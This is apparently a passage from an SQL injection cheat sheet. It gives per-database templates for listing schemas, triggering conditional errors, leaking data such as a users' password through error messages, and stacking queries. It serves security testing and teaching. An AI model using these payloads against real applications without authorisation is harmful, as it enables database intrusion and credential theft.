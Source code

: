 ## Database contents

​            You can list the tables that exist in the database, and the columns that those tables contain.        

| Oracle     | `                    SELECT * FROM all_tables                    SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'                ` |
| ---------- | ------------------------------------------------------------ |
| Microsoft  | `                    SELECT * FROM information_schema.tables                    SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'                ` |
| PostgreSQL | `                    SELECT * FROM information_schema.tables                    SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'                ` |
| MySQL      | `                    SELECT * FROM information_schema.tables                    SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'                ` |

## Conditional errors

​            You can test a single boolean condition and trigger a database error if the condition is true.        

| Oracle     | `                    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual                ` |
| ---------- | ------------------------------------------------------------ |
| Microsoft  | `                    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END                ` |
| PostgreSQL | `                    1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)                ` |
| MySQL      | `                    SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')                ` |

## Extracting data via visible error messages

​            You can potentially elicit error messages that leak sensitive data returned by your malicious query.        

| Microsoft  | `                    SELECT 'foo' WHERE 1 = (SELECT 'secret')                                        > Conversion failed when converting the varchar value 'secret' to data type int.                ` |
| ---------- | ------------------------------------------------------------ |
| PostgreSQL | `                    SELECT CAST((SELECT password FROM users LIMIT 1) AS int)                                        > invalid input syntax for integer: "secret"                ` |
| MySQL      | `                    SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))                                        > XPATH syntax error: '\secret'                ` |

## Batched (or stacked) queries

​            You can use batched queries to execute multiple queries in  succession. Note that while the subsequent queries are executed, the  results are not returned to the application. Hence this technique is  primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.        

| Oracle     | `                    Does not support batched queries.                ` |
| ---------- | ------------------------------------------------------------ |
| Microsoft  | `                    QUERY-1-HERE; QUERY-2-HERE                ` |
| PostgreSQL | `                    QUERY-1-HERE; QUERY-2-HERE                ` |
| MySQL      | `                    QUERY-1-HERE; QUERY-2-HERE                ` |
